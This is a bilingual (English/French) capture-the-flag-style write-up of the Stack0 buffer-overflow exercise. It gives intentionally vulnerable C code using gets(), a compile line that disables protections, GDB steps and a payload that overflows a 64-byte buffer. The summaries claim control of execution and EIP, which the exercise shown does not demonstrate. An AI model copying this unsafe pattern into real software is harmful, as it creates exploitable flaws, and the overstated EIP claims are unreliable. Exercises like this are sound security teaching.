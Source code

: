 # Source code

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

```c
int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
```

# Explanation

1. **Compile**

```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack0.c -o Stack0
```

2. **Drop into GDB and locate vulnerable read**
```bash
gdb ./Stack0

(gdb) disassemble main
```
![Breakpoint](Images/BreakPointGets.png)

- Scan for call to `gets`/`strcpy`/`fgets` (whichever unsafe function used).
- Note its address, say `0x080491a6`.


3. **Break at that instruction**
```gdb
(gdb) break *0x080491a6
```

4. **Run a large dummy payload**
```gdb
#directly from GDB
(gdb) run < <(python3 -c "print('A'*200)")
```

5. **When it stops print the addresses**
```gdb
(gdb) print &buffer        # start of buffer
(gdb) print &modified     
```
![Disas](Images/GDBdisas.png)

This gives you the number of filler bytes you need to reach `target` (whether it’s a local var or saved RIP/EIP).

6. **Compute exact byte distance**
```gdb
(gdb) print (char*)&modified - (char*)&buffer #will find exact offset
64
```
![Offset](Images/OffsetStack0.png)

7. **Craft payload and execute**

```bash
python3 -c 'print("A"*64 + "B")' | ./Stack0
```
![Success](Images/Success.png)


# What I learned

- A basic stack-based buffer overflow can redirect execution with just user-supplied data—no need for advanced tricks.
- The magic number here is 64 bytes.
- GDB’s basics—disas, info registers, simple breakpoints—are enough to prove the takeover.
- Turning off modern flags (-fno-stack-protector, -z execstack, etc.) lets you see the raw bug in action.

# Ce que j’ai appris

- Un simple overflow sur la pile suffit à détourner le flux d’exécution ; pas besoin de gadgets sophistiqués.
- **64 octets** exactement : c’est la distance qui me donne la main sur EIP.
- Trois commandes GDB — `disas`, `break`, `info reg` — et le contrôle est évident.
- En désactivant les protections (`-fno-stack-protector`, `-z execstack`, `-no-pie`), on voit la vulnérabilité à l’état brut.
